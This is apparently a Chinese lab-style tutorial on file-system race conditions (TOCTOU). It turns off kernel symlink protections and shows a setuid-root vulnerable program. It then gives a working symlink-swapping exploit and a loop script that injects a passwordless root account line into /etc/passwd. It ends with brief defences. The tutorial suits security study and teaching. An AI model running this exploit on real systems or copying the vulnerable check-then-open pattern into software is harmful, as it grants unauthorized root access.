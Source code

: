 # 竞争条件

## 1.基本概念

多个线程/进程并发执行时，可能会访问或者操作统一资源，而执行结果取决于执行顺序，故存在竞争条件



## 2.文件系统竞争条件漏洞示例

环境准备：关闭操作系统保护措施：

```shell
# 禁止随意追踪处于所有人都可写入的目录中的链接，如/tmp
$ sudo sysctl -w fs.protected_symlinks=0
# 禁止 root 写处于/tmp 中属于其他人的文件
$ sudo sysctl -w fs.protected_regular=0
```

示例程序：vul.c，并 `sudo chown root vul; sudo chmod u+s vul`

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
int main()
{
 char * fn = "/tmp/XYZ";
 char buffer[60];
 FILE *fp;
 /* get user input */
 scanf("%50s", buffer );
 if(!access(fn, W_OK)){
     fp = fopen(fn, "a+");
     fwrite("\n", sizeof(char), 1, fp);
     fwrite(buffer, sizeof(char), strlen(buffer), fp);
     fclose(fp);
 }
 else printf("No permission \n");
}
```

访问文件与打开文件并非原子性操作，所以存在竞争条件，那么我们就需要利用中间的时间片修改 fn 指针指向的文件，这里采取符号链接的方式

attack_process.c：后台运行，创建对应符号链接，并不断交换 XYZ 和 ABC 文件

link：创建一个硬链接

symlink：用于创建一个软链接

unlink：删除软链接，硬链接或文件

```c
#define _GNU_SOURCE

#include <unistd.h>
#include <stdio.h>

int main()
{
  unsigned int flags = RENAME_EXCHANGE;

  unlink("/tmp/XYZ");
  symlink("/dev/null", "/tmp/XYZ");
  unlink("/tmp/ABC");
  symlink("/etc/passwd", "/tmp/ABC");
   
  while(1) {
    renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);   
  }

  return 0;
}

# gcc -o attack_process attack_process.c
```

./target_process.sh：不断执行 vul 文件并检查其时间戳，并正好在/tmp/XYZ 符号链接到/etc/passwd 时以 root 权限写入特权用户

```shell
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while  [ "$old" == "$new" ]
do
        ./vul < passwd_input
        new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

利用文件系统的竞争条件，passwd_input 文件中写入 `test::0:0:test:/root:/bin/bash`, 密码也可以是一个无密码账户的魔法值：`U6aMy0wojraho`，在/etc/passwd 中添加一个 root 用户 test



## 3.防护

使用原子性操作，将检查与使用放到同一个操作当中

锁，信号量